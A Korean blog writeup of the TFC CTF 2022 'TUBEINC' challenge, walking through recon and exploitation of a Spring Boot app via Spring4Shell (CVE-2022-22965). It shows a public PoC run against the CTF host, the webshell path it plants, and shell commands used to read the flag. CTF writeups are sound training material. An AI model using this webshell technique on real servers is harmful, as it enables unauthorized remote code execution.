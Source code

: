 ```yaml
---
layout: post
title: "[TFC CTF 2022] TUBEINC"
categories: [CTF, Writeup]
tags: [Writeup]
date: 2022-08-05 17:06:00 +09:00
author: aestera
---
```


# TUBEINC

대회 중에는 풀지 못했던 문제인데 Writeup을 보니 재밌어서 정리해본다.

![Untitled](/assets/img/post_images/TUBEINC/main.png)

문제 페이지의 모습이다 크게 얻을 것은 없지만 페이지 하단에 보면

```html
<footer>
  <p>For the complete functionality of the page add the following entries to your DNS configuration and use tube.com:PORT to connect to the platform.<br>
    34.65.33.171 tube.com<br>
    34.65.33.171 legacy.tube.com<br>
    DO NOT USE THIS IN PRODUCTION!</p>
</footer>
```

IP주소와 도메인 주소간 매핑 설정이 보인다.<br>
이를 로컬에서 맞춰주기 위해 host파일(C:\Windows\System32\drivers\etc\hosts)을 변경해야 한다.

*****

# hosts 파일이란?

![Untitled](/assets/img/post_images/TUBEINC/hosts_capture.png)

IP주소와 도메인을 매핑해주어 DNS에서 주소를 제공 받지 않고도 서버를 찾을 수 있게 해주는 리스트이다.<br>
hosts파일을 보면 localhost가 loopback인 127.0.0.1로 설정되어 있는 것을 볼 수 있다.<br><br>

*****

``` 
# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost
34.65.33.171 tube.com
34.65.33.171 legacy.tube.com
```

local의 hosts 파일을 위처럼 변경해주고 다시 문제 사이트로 들어가보면 alert 창이 뜬다.<br><br>
![Untitled](/assets/img/post_images/TUBEINC/alert.png)

html 소스코드를 보면 숨어있는 주석을 볼 수 있다.

```html
  <!--
    Important!
    Due to the recent discovery of a major vulnerability of the used framework, this platform is now deprecated (more information at /info).
    It remains available only for backward compatibility reasons.

    DO NOT USE THIS PLATFORM IN PRODUCTION!
  -->
```

/info 경로에 들어가보면

![Untitled](/assets/img/post_images/TUBEINC/info.png)

spring-boot를 사용하고 22년 3월 30일이 마지막 업데이트 인 것으로 보인다.<br>
관련 CVE를 찾아보면 **spring4shell(CVE-2022-22965)** 가 있다.
![Untitled](/assets/img/post_images/TUBEINC/spring4shell.png)

[LunaSec](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/)<br>
[Kisa](https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=66592)

****

# 취약 조건

- JAVA 9이상
- Apache Tomcat 서버
- Spring Framwork 버전 5.3.0 ~ 5.3.17, 5.2.0 ~ 5.2.19 및 이전 버전
- Spring-webmvc 또는 Spring-webflux 종속성
- WAR 형태로 패키징

****

# Exploit

구글링을 해보면 spring4shell 취약점을 통해 Webshell을 얻을 수 있는 POC가 있다.<br>
[POC](https://github.com/reznok/Spring4Shell-POC)

Exploit POC

```shell
python exploit.py --url "http://legacy.tube.com:49445"
──(dim.,juil.31)─┘
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://legacy.tube.com:49445/shell.jsp?cmd=id
```
![Untitled](/assets/img/post_images/TUBEINC/id.png)

Shell을 땄다. **cmd=cat user.flag** 로 FLAG를 얻었다.

![Untitled](/assets/img/post_images/TUBEINC/flag.png)

